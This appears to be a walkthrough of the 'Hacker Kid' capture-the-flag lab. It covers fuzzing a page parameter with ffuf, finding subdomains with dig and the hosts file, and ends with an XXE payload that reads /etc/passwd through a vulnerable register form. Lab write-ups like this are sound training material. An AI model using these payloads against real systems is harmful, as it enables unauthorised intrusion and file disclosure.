 ```python
# save this output in a file 
for i in range(50):
    print(i)
```

- We can use Burp-Suite or ffuf
- WE USE FFUF

```bash
ffuf -u http://192.168.163.196/?page_no=FUZZ -w output
```

- Success

![subdomain-hint.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/subdomain-hint.png)

```
Okay so you want me to speak something ?
I am a hacker kid not a dumb hacker. So i created some subdomains to return back on the server whenever i want!!
Out of my many homes...one such home..one such home for me : **hackers.blackhat.local**
```

- we need to save this domain name to /etc/hosts

![hosts-file.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/e7546f39-2e77-49b3-b3c1-9cebdb312ef1.png)

- After some time we find out subdomain name
- Found another subdomain

```bash
dig http://hackers.blackhat.local @192.168.163.196
```

![vhost.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/vhost.png)

---

### website → subdomain

![vhost-success.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/vhost-success.png)

---

### XML Injection

> GitHub Reference for XML Payload   → https://github.com/payloadbox/xxe-injection-payload-list
> 

- The Register form is vulnerable to XML Injection

> **PAYLOAD**
> 

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/passwd">]>
```
